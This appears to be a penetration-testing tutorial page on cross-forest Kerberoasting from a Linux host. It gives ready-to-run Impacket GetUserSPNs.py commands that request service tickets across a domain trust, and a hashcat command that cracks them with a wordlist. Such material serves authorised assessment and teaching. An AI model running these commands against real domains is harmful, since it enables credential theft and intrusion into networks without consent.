 # Attacking Domain Trusts - Cross-Forest Trust Abuse - from Linux
Kerberos-based attacks—such as **Kerberoasting** and ASREPRoasting—can be executed across domain or forest trusts, depending on the trust direction.
If you're operating within a domain that has an inbound or **bidirectional** trust with another domain or forest, you may be able to leverage that trust to launch attacks in the trusted domain.
If this is possible in the environment we are assessing, we can perform this with GetUserSPNs.py from our Linux attack host. To do this, we need credentials for a user that can authenticate into the other domain and specify the -target-domain flag in our command. Performing this against the DOM.LOCAL domain, we see one SPN entry for the mssqlsvc account.

## Cross-Forest Kerberoasting
### Using GetUserSPNs.py
```shell
GetUserSPNs.py -target-domain DOM.LOCAL CORP.LOCAL/wley
```
<img width="2281" height="325" alt="image" src="https://github.com/user-attachments/assets/2ddc6e1b-ac0a-47d4-927e-e27693645c18" />

#### Get TGS ticket 
Rerunning the command with the -request flag added gives us the TGS ticket. We could also add -outputfile <OUTPUT FILE> to output directly into a file that we could then turn around and run Hashcat against.
```shell
GetUserSPNs.py -request -target-domain DOM.LOCAL CORP.LOCAL/wley
```
<img width="2284" height="442" alt="image" src="https://github.com/user-attachments/assets/0d1d5adb-70b6-4bcf-bac4-441a3b04b32b" />

### Crack the hashes
```shell
sudo hashcat -m 13100 hash.hash /usr/share/wordlists/rockyou.txt
```



